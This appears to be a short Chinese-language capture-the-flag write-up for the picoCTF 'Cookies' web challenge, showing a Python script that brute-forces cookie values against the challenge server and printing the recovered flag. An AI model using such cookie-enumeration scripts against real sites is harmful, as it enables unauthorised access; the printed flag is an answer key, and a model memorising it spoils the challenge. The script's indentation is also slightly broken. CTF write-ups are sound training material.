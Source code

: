 ```yaml
---
title: "picoCTF Cookies [40points]"
date:  2022-03-20
categories: [CTF]
tags:       [Web Exploit]
---
```

輸入snickerdoodle，發現進入畫面不一樣  


嘗試撰寫暴力破解腳本

``` line-numbers
#!/bin/python3
import requests
for i in range(25):
    cookie = 'name={}'.format(i)
    headers = {'Cookie':cookie}
    
    r = requests.get('http://mercury.picoctf.net:/check', headers=headers)
if (r.status_code == 200) and ('picoCTF' in r.text):
        print(r.text)
```

取得FLAG  


FLAG:picoCTF{3v3ry1_l0v3s_c00k135_064663be}
